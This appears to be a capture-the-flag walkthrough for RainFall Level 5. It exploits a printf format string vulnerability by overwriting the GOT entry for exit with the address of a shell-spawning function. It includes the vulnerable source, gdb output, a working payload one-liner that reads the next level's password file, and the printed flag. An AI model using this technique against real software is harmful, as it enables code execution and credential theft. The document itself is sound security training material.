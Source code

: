 # Level 5

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <stdio.h>

void o(void)
{
    system("/bin/sh");
    _exit(1);
}

void n(void)
{
    char buffer[512];
    fgets(buffer, 512, stdin);
    printf(buffer);
    exit(1);
}

int main(void)
{
    n();
}
```

Let's focus on the `n` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However the `printf` function is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability.

This exercise is the same as the previous ones, except that we have to write the address of the `o` function into the value that the GOT entry address for `exit` points to. Please refer to the [level3 walkthrough](../level3/walkthrough.md) for a detailed explanation of the format string vulnerability.

This only works because `exit` is a function in the Procedure Linkage Table (PLT), a mechanism used in dynamic linking to call external functions. When a function like `exit` is called, the PLT initially redirects to the Global Offset Table (GOT) entry for the function, which then points back to the PLT and subsequently to the dynamic linker for the first call. Once the dynamic linker has been called, the GOT is updated with the address of the function, and the next time the function is called, the GOT will point directly to the function.
> Read more about that [here](https://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got).

Here you see the disassembly of the `exit` function:
```bash
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
```

The PLT is the set of instructions you see (`jmp`, `push`, `jmp`).  
The GOT entry for the `exit` function is referenced by the address `0x8049838`, which is used in the indirect jump instruction.

The `jmp *0x8049838` instruction dereferences the address stored at `0x8049838` and jumps to it. After our tampering, this will be the address of the `o` function.

So, first let's locate our input string on the stack:
```bash
level5@RainFall:~$ python -c 'print("AAAA %x %x %x %x")' | ./level5
AAAA 200 b7fd1ac0 b7ff37d0 41414141
```

In this output, 41414141, the hexadecimal representation of 'AAAA', is found at the fourth position.

Using gdb we find that that the address of the `o` function is `0x080484a4` and we showed before that the address of the GOT entry for `exit` is `0x8049838`.

We can then craft our payload:
```
address of the GOT entry for exit + address of o + %n format specifier pointing to the fourth argument

"\x08\x04\x98\x38"[::-1] + "%134513824p" + "%4$n"
```

Since we need to write `080484A4` into the value pointed to by the address of the GOT entry for `exit`, we write 134513828 (`080484A4` in decimal) characters (4 from the address of the GOT table and 134513824 from the width specifier of `%p`).  
Then, we use the `%n` format specifier to write the count of bytes written so far into the fourth argument, which corresponds to the GOT table address.

Let's run our payload:
```bash
level5@RainFall:~$ (python -c 'print("\x08\x04\x98\x38"[::-1] + "%134513824p" + "%4$n")' && echo 'cat /home/user/level6/.pass') | ./level5
[...]
0x200
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

We are now level6! Let's move on to the next level.
